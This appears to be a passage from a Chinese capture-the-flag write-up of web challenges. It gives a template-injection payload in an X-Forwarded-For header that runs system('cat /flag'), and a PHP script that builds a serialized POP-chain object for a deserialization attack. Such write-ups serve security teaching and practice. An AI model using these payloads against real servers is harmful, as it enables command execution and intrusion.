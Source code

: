 查看源码即可

![](https://bucket-of-spreng.oss-cn-beijing.aliyuncs.com/img/20250505204116526.png)

## web-ip | FINISHED

使用hack-bar在请求头中添加X-Forwarded-For:127.0.0.1{{system('cat /flag')}}即可

## web-pop | FINISHED

```php
<?php
class Start{
  public $name;
  protected $func;
  public function __construct($aa)
 {
    $this->func = $aa;
 }
}
class Sec{
  private $obj;
  private $var;
  public function __construct($aa, $bb)
 {
    $this->obj = $aa;
    $this->var = $bb;
 }
}
class Easy{
  public $cla;
}
class eeee{
  public $obj;
  public function __construct()
 {
    $this->obj = new Start(new Sec(0,0));
 }
}
$a = new Start(0);
$a->name = new Sec(new Easy(), new eeee());
echo urlencode(serialize($a));
```



php反序列化，构造pop链传参即可



![](https://bucket-of-spreng.oss-cn-beijing.aliyuncs.com/img/20250505204116528.png)

# Reverse
